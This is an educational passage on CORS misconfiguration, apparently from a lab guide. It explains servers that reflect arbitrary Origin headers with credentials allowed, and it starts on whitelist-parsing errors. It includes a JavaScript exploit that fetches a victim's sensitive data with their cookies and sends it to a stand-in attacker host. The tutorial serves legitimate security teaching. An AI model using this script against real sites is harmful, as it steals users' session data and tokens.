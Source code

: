 > NOTE: Check out [walkthrough](cors_lab01_zaproxy.md) of this lab in OWASP Zed Attack Proxy

### Server-generated ACAO header from client-specified Origin header

Some applications need to grant access to multiple external domains. Managing a strict list of allowed origins can be time-consuming, and errors may disrupt functionality. To simplify this, some developers take a shortcut by effectively permitting any domain to access the application. one common method involves dynamically setting the `Access-Control-Allow-Origin` header to match the `Origin` header from incoming requests. For example, if a request comes from `https://malicious-website.com` with valid session-cookie, the server might respond with headers like:

```http
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true
```

This response tells the browser to allow the requesting (malicious) domain to access sensitive data and include credentials (like cookies) in requests. If the application reflects any origin in this way, _any_ domain can gain access to potentially sensitive content. An attacker can exploit this by embedding the following script on their site, which silently sends a cross-origin request and logs the response data:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

This technique allows attackers to extract confidential information such as session data or CSRF tokens without user awareness.

### Errors in parsing Origin headers

Some applications handle cross-origin access by maintaining a whitelist of trusted origins. When CORS request is received the application checks the `Origin` header against this whitelist. If the origin is found on the list, the server includes it in the `Access-Control-Allow-Origin` response header, thereby granting access. For instance, a request like:

```
GET /data HTTP/1.1  
Host: normal-website.com  
Origin: https://innocent-website.com  
```

would be processed by checking whether `https://innocent-website.com` is on the approved list. If it is, the response would include:

```
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://innocent-website.com  
```
